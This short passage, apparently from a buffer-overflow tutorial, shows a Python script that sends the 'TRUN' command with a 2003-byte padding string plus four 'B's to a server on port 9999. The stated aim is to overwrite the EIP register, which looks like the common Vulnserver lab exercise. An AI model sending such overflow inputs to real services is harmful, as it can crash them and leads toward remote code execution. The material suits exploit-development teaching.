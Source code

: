 We are going to be using a script to overwrite the `EIP` 

```python
#!/usr/bin/python
 
import sys, socket

# replace 2003 with the offset you got 
shellcode = "A" * 2003 + "B" * 4

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```